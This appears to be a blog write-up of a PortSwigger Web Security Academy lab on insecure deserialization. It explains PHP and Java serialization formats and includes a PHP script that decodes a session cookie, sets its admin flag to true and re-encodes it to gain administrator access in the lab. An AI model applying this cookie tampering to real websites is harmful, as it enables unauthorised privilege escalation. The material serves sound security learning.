 ```yaml
---
title: Insecure deserialization - Practice
date: 2024-01-19
categories: [PortSwigger, Insecure deserialization]
tags: [portswigger, lab, serialization, deserialization, burp]
img_path: /assets/portswigger/insecure_deserialization/
published: true
image:
    path: ../portswigger_acad_logo.png
---
```


---

<center> <a href="https://cspanias.github.io/posts/PS-Insecure-deserialization-Theory/">[Insecure deserialization - Theory]</a> </center>

---

## Identification

During auditing, you should look at all data passed into the website and try to identify anything that looks like serialized data. Once you identify serialized data, you can test whether you are able to control it.

> _Serialized data can be identified relatively easy if you know the format that different languages use._

> _Burp Pro's Scanner will automatically flag any HTTP messages that appear o contain serialized objects._

### PHP serialization format

PHP uses a mostly **human-readable string format**, with letters representing the data type and numbers representing the length of each entry. For example, consider a `User` object with the attributes:

```php
$user->name = "carlos";
$user->isLoggedIn = true;
```

When serialized, this object may look like this:

```php
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
```

This can be interpreted as follows:
- `O:4:"User"` - An object with the 4-character class name "User".
- `2` - the object has 2 attributes.
- `s:4:"name"` - The key of the first attribute is the 4-character string "name".
- `s:6:"carlos"` - The value of the first attribute is the 6-character string "carlos".
- `s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string "isLoggedIn".
- `b:1` - The value of the second attribute is the boolean value true.

The native methods for PHP serialization are `serialize()` and `unserialize()`. 

> _If you have source code access, you should start looking for `unserialize()` anywhere in the code and investigating further.

## Java serialization format

Java uses **binary serialization format**. This is more difficult to read, but you can still identify serialized data if you know how to recognize a few tell-tale signs. For example, serialized Java objects always begin with the same bytes, which are encoded as `ac ed` in hex and `rO0` in Base64.

Any class that implements the interface `java.io.Serializable` can be serialized and deserialized.

> _If you have source code access, take note of any code that uses the `readObject()` method, which is used to read and deserialize data from an `InputStream`._

## Exploitation

### Manipulating serialized objects

Exploiting some deserialization vulnerabilities can be as easy as changing an attribute in a serialized object. Generally speaking, there are 2 approaches you can take when manipulating serialized objects:
1. You can edit the object directly in its byte stream form.
2. You can write a short script in the corresponding lagnuage to create and serialize the new object.

The latter is often easier when working with binary serialization formats.

#### Modifying object attributes

Consider a website that uses a serialized `User` object to store data about a user's session in a cookie. If an attacker spotted this serialized object in an HTTP request, they might decode it to find the following byte stream:

```php
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}
```

The `isAdmin` attribute is an obvious point of interest. An attack could:
1. Change the boolean value to `1`.
2. Re-encode the object.
3. Overwrite their current cookie with this modified value.

In isolation, this has no effect. However, let's say the website uses this cookie to check whether the current user has access to certain administrative functionality:

```php
$user = unserialize($_COOKIE);
if ($user->isAdmin === true) {
// allow access to admin interface
}
```

This vulnerable code would instantiate a `User` object based on the cookie data, including the attacker-modifed `isAdmin` attribute. At no point is the authenticity of the serialized object checked.

This simple scenario is not common in the wild. However, editing an attribute value in this way demonstrates the first step towards accessing the massive amount of attack surface exposed by insecure deserialization.

#### Lab: Modifying serialized objects

> **Objective**: _This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`._

1. When we login as `wiener` our cookie looks like this:

    ![](lab1_login_cookie.png)

2. We can write a short script using a [PHP Online Compiler](https://www.programiz.com/php/online-compiler/) that will:
    1. Decode the cookie.
    2. Modify the desired value.
    3. Encode the cookie.

    ```php
    <?php

    # set the serialized cookie
    $serialized_cookie = "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d";
    print "Serialized cookie: $serialized_cookie\n\n";

    # URL decode cookie
    $url_decoded_cookie = urldecode($serialized_cookie);
    print "URL decoded cookie: $url_decoded_cookie\n\n";

    # Base64 decode cookie
    $base64_decoded_cookie = base64_decode($url_decoded_cookie);
    print "Base64 decoded cookie: $base64_decoded_cookie\n\n";

    # modify attribute
    $modified_cookie = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}';

    # modify attribute and encode cookie
    $modifed_serialized_cookie = urlencode(base64_encode($modified_cookie));
    print "Modified serialized cookie: $modifed_serialized_cookie";

    ?>
    ```

    The output of the above script is the following:

    ```text
    Serialized cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d

    URL decoded cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=

    Base64 decoded cookie: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}

    Modified serialized cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3D
    ```

3.  Then, we can test the cookie via Burp's repeater, and if it works, then manually change it via the browser's **developer tools**, refresh the page and, hopefully, become admins:

    ![](lab1_admin_panel.png)

    ![](lab1_inspector_cookie.png)

    ![](lab1_solved.png)

## Futher practice

- [picoCTF: Super Serial](https://cspanias.github.io/posts/PicoCTF-Super-Serial/)